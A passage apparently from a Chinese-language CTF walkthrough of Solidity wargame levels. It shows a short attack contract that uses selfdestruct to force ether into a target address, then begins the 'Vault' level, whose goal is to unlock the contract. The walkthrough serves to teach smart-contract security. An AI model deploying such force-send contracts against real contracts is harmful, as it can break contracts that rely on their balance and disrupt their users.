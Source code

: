 攻击脚本，记得将编译版本调低一点：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exp {
    function destruct(address payable addr) public {
        selfdestruct(addr);
    }
    receive() external payable { }
}
```

![image-20250104151331492](./assets/image-20250104151331492.png)



## Level_8.Vault

要求：

> 解锁合约；
